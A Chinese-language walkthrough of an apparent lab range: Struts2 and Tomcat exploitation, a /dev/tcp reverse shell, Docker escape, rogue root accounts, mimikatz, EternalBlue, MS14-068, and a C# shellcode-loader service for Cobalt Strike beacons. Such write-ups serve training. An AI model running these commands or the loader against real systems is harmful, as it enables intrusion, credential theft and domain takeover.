




# 靶场考察点

## MS14-068漏洞

MS14-068是一个著名的Windows Kerberos安全漏洞，允许攻击者篡改Kerberos票据，从而获取非法提权。这个漏洞特别影响Windows域控制器，能让攻击者伪造Kerberos票据，获取域内几乎任意账户的权限，包括域管理员权限。这使得攻击者可以在网络中随意访问和控制资源


## MS17010漏洞

MS17-010，也被称作“永恒之蓝（EternalBlue）”，是指在2017年由美国国家安全局（NSA）发现并被Shadow Brokers黑客组织公开的一系列Windows操作系统的安全漏洞。这些漏洞影响了Windows的Server Message Block (SMB) 协议，SMB是一种用于文件共享、打印机共享和Windows域中的其他通信的网络协议。

漏洞的主要问题在于它允许未经认证的攻击者远程执行任意代码并获取对系统的完全控制，这使得它成为勒索软件和网络蠕虫等恶意软件的理想传播途径。最著名的利用这一漏洞的攻击是2017年的WannaCry勒索软件事件，它在全球范围内影响了数十万台计算机，造成了巨大的经济损失和运营中断


## Strust2漏洞

Apache Struts 2 是一个流行的开源框架，用于创建企业级Java web应用程序。Struts2漏洞通常涉及远程代码执行，允许攻击者通过发送特制的HTTP请求来控制或破坏目标服务器


## CVE-2017-12615漏洞

CVE-2017-12615是一个在Apache Tomcat中发现的安全漏洞。这个漏洞存在于Tomcat的某些版本中，允许攻击者利用HTTP PUT请求上传恶意的JSP文件，然后执行这些文件。这通常是由于不当配置或不安全的默认设置导致的。以下是该漏洞的一些关键点：

1. **受影响版本**：影响的是Apache Tomcat 7.0.0至7.0.79版本。它是在Tomcat 7的某些实现中找到的，并且后续版本修复了这个问题。
2. **漏洞详情**：默认情况下，Tomcat 允许使用 HTTP PUT 方法上传文件。此漏洞利用了Tomcat的这一行为，允许攻击者上传包含恶意代码的JSP文件。然后，攻击者可以通过访问这些上传的文件来执行服务器端代码。
3. **攻击原理**：攻击者发送带有特殊构造的PUT请求到服务器，这个请求包含了恶意JSP文件的内容。如果服务器配置不当，攻击者上传的文件可以被服务器接受并保存在可访问的目录中。上传文件之后，攻击者可以通过访问这个JSP文件来执行服务器端代码，这可能导致信息泄露、服务器被控制等后果。
4. **修复和缓解**：修复这个漏洞的主要方法是更新到Apache Tomcat的最新版本，或者至少是没有这个漏洞的安全版本。此外，管理员可以通过配置来禁用HTTP PUT方法或者加强文件上传位置的安全性，以减少被攻击的风险。


## CVE-2018-12163了漏洞

CVE-2018-12613 是一个发现于 phpMyAdmin 的安全漏洞。phpMyAdmin 是一个流行的、基于 Web 的 MySQL 数据库管理工具，广泛用于管理数据库，包括数据库的访问、修改、备份等多种功能。这个漏洞特别是因为一个本地文件包含（Local File Inclusion, LFI）漏洞，允许攻击者远程执行代码或读取系统文件，具体取决于攻击者的意图和系统配置


# 靶场搭建

## 机器配置

| 机器                   | IP网段                              | 用户及密码                                  |
| ---------------------- | ----------------------------------- | ------------------------------------------- |
| ubuntu（web）          | 192.168.47.186<br />192.168.183.128 | ubuntu：ubuntu                              |
| WindowServer2008（DC） | 192.168.183.130                     | administrator：Test2008(我修改成了qQ123456) |
| Win7(域内成员机)       | 192.168.183.129                     | douser：Dotest123                           |


## 服务配置

使用`docker ps -a`列出当前docker的镜像ID，再使用`docker start [ID]`启动前三个镜像ID

	


# 外网打点

## 信息收集

使用nmap扫描Web机的开放端口：`nmap -p- 192.168.47.186 -A`

		


综合上述扫描结果, 总结信息如下表格所示

| 端口     | 服务                                                         | 攻击面                  |
| -------- | ------------------------------------------------------------ | ----------------------- |
| 22/tcp   | OpenSSH6.6.1，一个较旧的版本，通常用于远程安全登录           | 暴力破解、旧版本SSH漏洞 |
| 2001/tcp | Jetty 9.2.11.v20150529，一个轻量级的Java HTTP服务器和servlet容器 | 旧版本的Struts2漏洞     |
| 2002/tcp | Apache Tomcat 8.5.19，一个广泛使用的开源Java servlet容器，页面标题为“Apache Tomcat/8.5.19” | 配置不当或已知漏洞      |
| 2003/tcp | Apache httpd 2.4.25，一个非常流行的开源Web服务器软件，扫描发现了一个robots.txt | 旧版本漏洞或配置问题    |


## 漏洞利用

### struts2漏洞

访问`http://192.168.47.186:2001/`，发现是一个文件上传的页面，随便上传了一个图片文件，页面返回链接`http://192.168.47.186:2001/doUpload.action;jsessionid=1ljs4kw9xe4pukufqkw6zb11d`，并没有返回上传文件的路径

	


使用[STS2G](https://github.com/xfiftyone/STS2G)扫描器扫描Struts2漏洞，发现`Strus2-045`漏洞（该漏洞存在于Struts2的文件上传功能中，攻击者可以通过修改HTTP头来执行任意代码）


尝试利用漏洞远程执行linux命令，命令执行成功并返回执行结果，通过查看web服务当前目录，发现目标主机处于docker环境下


尝试反弹目标系统shell，kali开启ncj监听本机的4444端口，反弹成功，获取到一个非交互性的shell

```
/bin/bash -i >& /dev/tcp/192.168.47.183/4444 0>&1
```


​		

发现目标系统的python版本为2.7

	


执行如下命令获取一个交互性相对良好的shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

	


查看`/etc/passwd`和`/etc/shadow`的内容可知，这些账户要么没有密码，要么被禁止登录，当然这是因为反弹到的shell是处于dokcer环境下，后续我们要进行docker逃逸

	

		


### CVE-2017-12615

访问`http://192.168.47.186:2002`，页面显示Apache Tomcat的版本为8.5.19，此版本有个`CVE-2017-12615`漏洞


使用BurpSuite抓包，将请求方法修改为`PUT`并发送一个`/test`请求至目标服务器，服务器返回了一个204状态码，表示请求已成功，尽管没有内容返回，服务器的204响应通常意味着文件已被成功创建或修改

	


访问`/test`页面，页面成功显示上述我们提交的内容，也就是说此漏洞能够利用							

	


将提交的内容修改为哥斯拉生成的webshell内容，上传的文件名为`shell.jsp/`（在后面加个`/`是为了防止服务器过滤关键字）

		


后续可以在哥斯拉命令行终端远程执行linux命令

	


### CVE-2018-12613

搭建环境时貌似出现问题了，就没有去弄


## Docker逃逸

### 检查是否处于docker容器中

在Docker容器内部通常会存在一个名为 `.dockerenv` 的文件，可使用命令`ls /.dockerenv` 来检查这个文件是否存在

		


使用 `hostname` 命令查看当前的主机名，如果它看起来像一个容器ID（长字符串的hash），则可能在容器中

	


Docker会使用`cgroup`进行资源隔离，可通过查看 `/proc/1/cgroup` 文件的内容，若出现"docker"关键字，即表示当前处于dokcer容器中

	

​	

Docker容器中通常会设置特定的环境变量，可通过 `env` 命令查看环境变量，查看是否存在与Docker相关的变量，例如下图，`JAVA_HOME`设置为 `/docker-java-home/jre`，这通常是在Docker容器中设置的路径




使用`df -h`命令来显示当前环境中已挂载文件系统的信息

	

- `overlay` 文件系统类型通常用于Docker容器，用于叠加容器文件系统。
-  `tmpfs` 挂载是Docker容器用于提供临时文件存储和容器隔离的cgroup文件系统的典型设置。
- `/dev/sda1` 挂载在 `/etc/hosts` ，表示宿主机的 `/etc/hosts` 文件被挂载到容器中，用于控制容器对网络主机的了解。
- `shm` 大小设置为64M，这是Docker容器的默认设置，为容器内运行的进程提供共享内存


### 实现逃逸

使用`fdisk -l`命令查看磁盘分区表信息，可发现磁盘有三个分区，sda1是包含Linux文件系统的分区，通常是可挂载的；sda2是扩展分区，sda5是swap分区，用于虚拟内存，这两个分区都是不可挂载的

	


由于docker中的shell拥有root权限，因此我们可以挂载`/dev/sda1`分区，一旦分区被挂载，对挂载点目录的任何操作都是对`/dev/sda1`分区的操作，简单来说，就是可以通过容器来操作宿主机

```
mkdir /hacker
mount /dev/sda1 /hacker  #将sda1分区挂载到/hacker目录
```

	


## SSH连接Web机的三种方式

### 1.伪造ssh密钥

进入用户目录，查看当前所有文件(包括隐藏文件)，发现一个隐藏目录`.ssh`，它用于存储与SSH协议相关的用户配置文件和认证文件，例如用于SSH密钥认证的私钥和公钥

		


进入`.ssh`目录，发现了 `id_rsa` 和 `id_rsa.pub` 文件，这两文件分别是SSH的私钥和公钥。

在SSH协议中，若你想远程登录服务器的某个用户，你需要这个用户的私钥，当你使用私钥登录时，服务器将使用与之对应的公钥来验证你所持有的私钥，若验证成功，你将被允许登录，而无需输入密码，而公钥通常被添加到服务器的一个特定文件，比如`~/.ssh/authorized_keys`			

	


我们可以在kali中使用`ssh-keygen`命令来创建SSH的密钥，`-f`参数用于指定生成密钥文件的名称路径，随后系统会提示你输入一个passphrase(密钥短语)，这是一个可选步骤，若添加了可以提高密钥的安全性，若私钥落入他人手中，他们还需要知道密钥短语才能使用该私钥

```
ssh-keygen -f mykey
```

	


随后会在当前目录生成私钥和公钥文件，我们需要将公钥放置到目标服务器上

	


使用`wget`命令将公钥上传至目标服务器的`.ssh`目录，并将文件名修改为`authorized_keys`，并修改其权限为600

```
wget http://192.168.47.188:8000/mykey.pub
mv mykey.pub authorized_keys	
chmod 600 authorize_keys
```

	


随后在kali中使用对应的私钥连接目标主机的ubuntu用户

```
ssh -i mykey ubuntu@192.168.47.186
```


### 2.密码爆破

查看目标主机的`/etc/shadow`文件的内容，将其复制到kali中并使用`john`命令进行爆破，成功获取到`ubuntu`用户的密码


随之使用ssh远程登录目标主机

	


查看ubuntu用户的权限，发现其拥有所有权限


### 3.创建用户

除了上述两种方法可以实现远程ssh连接目标主机之外，还可以直接向`/etc/passwd`和`/etc/shadow`写入root权限的用户，例如此处我写入一个`hacker`用户，其密码是`qq123456`

```
echo 'hacker:x:0:0::/home/hacker:/bin/bash' >> /hacker/etc/passwd

echo 'hacker:$6$d2ABl4.a$1I0lpjZuR/DIU6o/awc904ewsr643Qsss6QqSf8Q7.yUQ9QFNQx6eJQXOQV9f/fduO8AeLYLUjKOgN7f.ZdeV0:19700:0:99999:7:::' >> /hacker/etc/shadow
```


kali尝试远程登录刚创建的hacker用户，登录失败了，可能是配置文件限制了root权限用户的登录

	


查看`/etc/ssh/sshd_config`文件的`PermitRootLogin`指令，该指令值决定了是否允许root用户的登录，此处值为`without-password`，表示仅允许root权限的用户通过密钥认证的方式登录，但不允许密码登录。虽然我们可以将此值修改为yes，但是还需要执行重启ssh服务的指令才能使其生效，并且当前shell是处于docker容器中，是无法执行这个命令的

> - `yes`：允许`root`用户通过SSH登录。
> - `no`：不允许`root`用户通过SSH登录。
> - `prohibit-password` 或 `without-password`：允许`root`用户通过密钥认证方式登录，但不允许密码登录。
> - `forced-commands-only`：`root`用户只能执行配置文件中指定的命令		

	


为了解决上述问题，我们可以创建一个普通用户，然后登录到目标主机后再切换至之前创建的root权限用户。此处我创建了一个普通用户`commonuser`

```
echo 'commonuser:x:1002:1002::/home/commonuser:/bin/bash' >> /hacker/etc/passwd
echo 'commonuser:$6$yvz9QFcZ$MWfPmklIisybqJlJXvtPsmPwTbg58bEar1/rGi34zgekxfHDWB2THnLtwE8CZKcG2OL2x2IQG4z1AM06WSwkR1:19700:0:99999:7:::' >> /hacker/etc/shadow
```


kali远程登录普通用户`commonuser`

```
ssh commonuser@192.168.47.186
```

	


然后切换至拥有root权限的hacker用户：`su - hacker`

	


# 内网渗透

## Frp内网穿透

登录Web主机后，发现其内网IP为`192.168.183.128`

	


在kali启动frp服务端，frps.ini配置如下所示，启动命令：`frps -c frps.ini`

```
[common]
bind_port = 7000  

[socks5]
type = tcp
auth_method = noauth 
bind_addr = 0.0.0.0
listen_port = 1080
```




使用wget命令将frp客户端上传至Web，frpc.ini配置如下，启动命令：`frpc -c frpc.ini`

```
[common]
server_addr = 192.168.47.188
server_port = 7000

[socks5]
type = tcp
remote_port = 1080
plugin = socks5  
```


修改kali的`/etc/proxychain4.conf`文件

	


## 内网信息收集

### MSF扫描内网

使用MSF的`scanner/discovery/udp_probe`模块来发现内网的存活IP，再配置个socks5协议

```
setg proxies socks5:192.168.47.188 1080
set rhosts 192.168.183.0-255
set threads 5   
```

> Metasploit 的 `scanner/discovery/udp_probe` 模块是一个用于发现和识别网络中的 UDP 服务的扫描工具。它通过向目标主机的特定 UDP 端口发送探测包，然后分析返回的响应（如果有的话）来工作。这个模块对于识别开放的 UDP 端口和相应服务特别有用


执行结果显示两个IP,分别是`192.168.183.129`和`192.168.183.130`，前者的主机名是`TESTWIN7-PC`，可推测其系统版本可能是windows7


可使用msf模块的`scanner/smb/smb_version`来确定内网主机的系统版本，从扫描结果可以看出, 目标主机运行的是`Windows 7 Enterprise Service Pack 1 7601`


### nmap扫描内网

nmap配合proxychains扫描内网ip：`proxychains nmap -A 192.168.183.129`

从扫描结果来看，此主机支持SMB协议版本2，开放端口为25(SMTP)、110(POP3)、135(RPC)、139和445(网络文件共享)

	

	


nmap扫描另外一个IP：`proxychains nmap -A 192.168.183.129`


根据扫描结果, 此主机可能是`Windows Server 2008 HPC Edition 7601 Service Pack 1,` ，是一台域控，域名是`demo.com`, 以下是其开放的端口和服务

- `25/tcp`、`110/tcp`、`636/tcp`：标记为 `tcpwrapped`，可能是为了安全性或其他原因，这些端口对外包装了一个统一的响应，阻止了进一步探测。
- `53/tcp`：运行 Microsoft DNS 服务，特定于 Windows Server 2008 R2 SP1。
- `88/tcp`：Kerberos 安全认证服务，显示服务器时间。
- `135/tcp`、`139/tcp`、`445/tcp`、`49154/tcp`-`49161/tcp`：这些与 Microsoft Windows RPC 和 SMB 服务相关，是 Windows 网络环境的典型特征。
- `389/tcp`、`3268/tcp`：运行 LDAP 服务，通常与 Active Directory 相关，表明这可能是域控制器。
- `593/tcp`、`49157/tcp`：Microsoft Windows RPC over HTTP，可能用于远程管理。


## 后渗透(MSF)

### 永恒之蓝漏洞

使用MSF的永恒之蓝漏洞扫描模块`scanner/smb/smb_ms17_010`，发现域控和PC机都存在永恒之蓝漏洞


使用永恒之蓝漏洞利用模块`windows/smb/ms17_010_eternalblue`，期间可能需尝试几次才能获取到目标主机的shell，执行成功会返回一个system权限的shell


	


执行`ipconfig /all`， 得知目标域控IP为`192.168.183.130`，这也证实了nmap扫描结果的猜想

	


### mimikatz导出凭据

加载mimikatz并获取目标主机的内存凭据，获取到PC机的凭据：`douser:Dotest123`

```
load kiwi  #加载mimikatz
creds_all  #列举内存凭据
```


	


或者使用mimikatz的`sekurlsa::logonpasswords`命令列出用户hash，此处Dotest用户SID为`S-1-5-21-979886063-1111900045-1414766810-1107`，这个SID在后续操作中很重要

	


### MS14-068漏洞

上传`ms14-068`漏洞利用工具`goldenPac.exe`至PC机


使用`goldenPac.exe`执行如下命令反弹域控的系统权限shell

```
goldenPac.exe demo.com/douser:Dotest123@WIN-ENS2VR5TR3N.demo.com
```

	


在域控创建一个拥有管理员权限的用户`hacker`，其密码是`Password123`

```
net user hacker Password123 /add
net localgroup Administrators hacker /add
```

	


执行域控防火墙的命令，为后续的反弹msf正向连接shell做准备

```
netsh advfirewall set allprofiles state off
```

	


执行如下命令生成MSF正向马，随后上传至PC机中

```
msfvenom -p windows/x64/meterpreter/bind_tcp lport=6666 -f exe -o bind_x64.exe
```


另起一个msf终端开启监听

	


让PC机与域控建立IPC连接：`net use \\192.168.183.130\ipc$ /user:hacker Password123`

将木马上传至域控：`copy c:\\bind_x64.exe \\192.168.183.130\c$`, 后续可通过创建计划任务或者ms14-068漏洞来执行木马，后面我会使用CobaltStrike演示这一流程

	

​			

## 后渗透(CS)

### 永恒之蓝漏洞

上述我们已经获取了web机的权限，通关一些简单的信息收集，发现此ubuntu的版本是14，这是一个很古老的版本，还好此机器上还装有python2.7，这里我将演示如何通过python脚本来利用永恒之蓝漏洞

首先下载永恒之蓝的[python exp](https://github.com/3ndG4me/AutoBlue-MS17-010)，将CS生成的二进制文件`payload_x64.bin`(最好选择stager类型,经过测试stageless类型或x86位的payload会导致目标主机蓝屏)放入其shellcode目录，随后执行如下命令将`sc_x64_kernel.bin` 和`payload_x64.bin`合并成`sc_x64.bin`

```
cat sc_x64_kernel.bin payload_x64.bin > sc_x64.bin
```

	


将exp（分别是`eternalblue_exploit7.py`、`sc_x64.bin`）上传到Web机

		


由于此脚本执行需要安装impacket库，我们可以通过此命令来安装：`apt-get install python-impacket`

安装完后使用socat命令进行流量转发：`socat TCP4-LISTEN:80,fork TCP4:192.168.47.188:80`

	


CobaltStrike新建一个HTTP监听，名为WebHTTP，IP地址应填写为Web机的内网IP

> `HTTP Host (Stager)`指定的IP地址是用于初始阶段的Stager所连接的服务器，当你生成一个stager类型的beacon并上传至目标主机后，目标主机会尝试从`HTTP Host (Stager)`指定的IP地址下载完整的payload，若你使用的stageless的beacon，那么此选项就不会发挥作用

	


执行如下命令对目标主机进行永恒之蓝漏洞攻击

```
python2 eternalblue_exploit7.py 192.168.183.129 sc_x64.bin
```

	


随后PC机在CobaltStrike上线


同理，我们也可以用来打域控


你也可以不用将漏洞利用脚本上传至Web机上，可以配合proxychains走Socks5协议实现对内网主机的永恒之蓝攻击，但是这种方法的利漏洞利用成功率比较低，不是很推荐


​	

### mimikatz导出凭据	

在PC机的beacon命令行执行mimikatz，成功获取到用户的凭据和SID


### MS14-068漏洞

将`MS14-068.EXE`上传至PC机中

	


执行如下cmd命令利用ms14068漏洞，执行完毕后会在当前文件夹下生成一个`TGT_douser@DEMO.COM.ccache`文件，这是一个票据文件，能够用于进一步的攻击活动

```
MS14-068.exe -u douser@DEMO.COM -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130 -p Dotest123
```


使用mimikatz注入上述生成的票据

```
mimikatz # kerberos::purge    //清空当前机器中所有凭
mimikatz # kerberos::list     //查看当前机器凭证
mimikatz # kerberos::ptc <上述生成的票据文件>   //将票据注入到内存中
```


与域控建立IPC$连接：`net use \\WIN-ENS2VR5TR3N`


查看IPC链接是否建立成功：`net use`


​	

并查看域控的C盘目录：`dir \\WIN-ENS2VR5TR3N\C$`

	

​	

使用之前的WebHTTP监听创建一个木马并上传至PC机中


在通过PC机将木马移动至域控的C盘目录

`shell copy C:\\beacon_x64.exe  \\WIN-ENS2VR5TR3N\c$`


在域控创建计划任务执行木马：`schtasks /create /s WIN-ENS2VR5TR3N /ru "SYSTEM" /tn mytask /sc ONCE /st 17:55 /tr C:\\beacon_x64.exe /F`


域控上线后运行mimikatz获取用户凭据


​		

此时我尝试使用SC创建系统服务来执行beacon，虽然beacon成功上线了，但是很快就会掉，随即弹出报错：”服务没有及时响应启动或控制请求“

```
sc \\WIN-ENS2VR5TR3N create "MyBeacons" binpath= "C:\\beacon_x64.exe"
sc \\WIN-ENS2VR5TR3N start MyBeacons
```


这是因为windows服务与常规应用程序的运行方式不同，windows服务需要与服务控制管理器(SCM)交互，因此我们需使用VisualStuido创建一个windows服务，并且需要知道目标系统支持的.NET版本，此处域控支持的.net版本是3.5及以下


以下是windows服务类型的beacon代码，你只需填上CS生成的shellcode即可

```c#
using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Data;
using System.Diagnostics;
using System.Linq;
using System.ServiceProcess;
using System.Text;
using System.Runtime.InteropServices;

namespace SharpService_shellcodeloader
{

    public partial class Service1 : ServiceBase
    {
        [DllImport("kernel32.dll")]
        private static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        private static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
            uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
            byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
           IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);


        public Service1()
        {
            InitializeComponent();
        }

        protected override void OnStart(string[] args)
        {
            // 填写cs或msf的Shellcode
            byte[] shellcode = new byte[894] {}


            IntPtr memoryAddress = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length,
                                                0x3000, 0x40);

            Marshal.Copy(shellcode, 0, memoryAddress, shellcode.Length);

            IntPtr threadHandle = CreateThread(IntPtr.Zero, 0, memoryAddress,
                                               IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(threadHandle, 0xFFFFFFFF);

        }

        protected override void OnStop()
        {
        }

    } 
}
```


将上述代码生成的木马上传至域控，使用如下命令创建服务并启动，域控成功上线并且没有掉线

```
sc \\WIN-ENS2VR5TR3N create "ServiceBeacon" binpath= "C:\\service.exe"
sc \\WIN-ENS2VR5TR3N description ServiceBeacon "This is Hacker Beacon"
sc \\WIN-ENS2VR5TR3N start ServiceBeacon
```


### 远程连接桌面

使用proxychains配合rdesktop命令远程登录内网域控的桌面

	

输入域控的管理员密码后即可成功登录

								


# 遇到的一些问题

## 1.CobaltStrike高版本的HTTPS Beacon无法上线

当使用CobaltStrike4.9生成一个HTTPS协议的beacon并放入windows7及以下版本执行，发现无法上线

这应该是tls协议支持的问题，像windows7这种低版本的系统默认是不支持tls1.2的，通常使用tls1.0协议，我疑惑的地方在于CobaltStrike显示是支持tls1.0协议的，但实际上却不支持，听群里的师傅说这是CobaltStrike的一个陈年旧病，貌似是有方法能够patch的，再此希望各位师傅能告知下解决方法

网上说的解决方法是修改`java.security`文件，将`jdk.tls.disableAlgorithms`的值中涉及`tls`和`ssl`的移除掉，但是依然无法解决上线问题

		
